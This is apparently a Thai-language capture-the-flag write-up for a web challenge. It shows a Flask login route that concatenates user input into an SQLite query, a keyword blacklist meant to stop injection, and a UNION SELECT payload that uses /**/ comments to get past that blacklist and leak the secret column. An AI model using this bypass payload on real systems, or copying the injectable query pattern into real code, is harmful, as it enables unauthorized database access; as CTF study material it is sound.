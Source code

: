 # web/Image Gallery

## schema.sql
```sql
CREATE TABLE IF NOT EXISTS login_details (
    id INTEGER PRIMARY KEY AUTOINCREMENT,
    username TEXT NOT NULL,
    password TEXT NOT NULL
, secret TEXT);
```
คือเขาให้มาแค่นี้จริงๆ ผมก็เลยเดาว่า flag น่าจะอยู่ใน secret

## main.py
```python
...
@app.route("/login", methods=["POST", "GET"])
def login():
    if "logged_in" in session and session["logged_in"]:
        session.pop("logged_in", None)
        return redirect(url_for("login"))

    if request.method == "POST":
        username = request.form["username"]
        password = request.form["password"]
        loweruser = username.lower()
        lowerpass = password.lower()
        invalid_entries = invalid_entries = [
            "=",
            "<",
            ">",
            "+",
            "//",
            "|",
            ";",
            " ",
            " ",
            "'1",
            " 1",
            " true",
            "'true",
            " or",
            "'or",
            "/or",
            " and",
            "'and",
            "/and",
            "'like",
            " like",
            "/like",
            "'where",
            " where",
            "/where",
            "%00",
            "null",
            "admin'",
        ]
        matching_value = next(
            (
                value
                for value in invalid_entries
                if value in loweruser or value in lowerpass
            ),
            None,
        )
        if matching_value:
            error = (
                f"Invalid entry in username and/or password fields. Please try again."
            )
            return render_template("login.html", error=error)

        conn = sqlite3.connect("chal.db")
        cursor = conn.cursor()

        query = f"SELECT secret FROM login_details WHERE username = '{username}' AND password = '{password}';"

        result = cursor.execute(query)
        user = result.fetchone()

        conn.close()

        if user:
            session["logged_in"] = True
            session["username"] = username
            session["secret"] = user[0]
            return redirect(url_for("profile"))
        else:
            error = "Invalid login credentials. Please try again."
            return render_template("login.html", error=error)

    return render_template("login.html")
...
```

ครับจะเห็นว่ามัน sql injection ได้แหละ แต่มัน filter คำสั่งที่ใช้บ่อยๆไว้ เลยต้อง research คำสั่งที่มันไม่มีอยู่ใน list นี้

```python
[
    "=",
    "<",
    ">",
    "+",
    "//",
    "|",
    ";",
    " ",
    " ",
    "'1",
    " 1",
    " true",
    "'true",
    " or",
    "'or",
    "/or",
    " and",
    "'and",
    "/and",
    "'like",
    " like",
    "/like",
    "'where",
    " where",
    "/where",
    "%00",
    "null",
    "admin'",
]
```

แล้วผมก็ไปเจอว่า /**/ การ comment แบบนี้ใน sql มันจะกลายเป็นช่องว่าง ก็~~แจ๋วสิครับ งั้นเราก็มา build payload กัน

## payload
```
'/**/union/**/select/**/secret/**/from/**/login_details--
```
![ez](1.png)
ครับเข้าได้จริง แต่มันให้มาเป็น jwt token และข้างในจะมีโค้ด js ที่ถูก obfuscate หลังจากนั้นก็เดากันเอาเองคั้บบ
![flag](2.png)
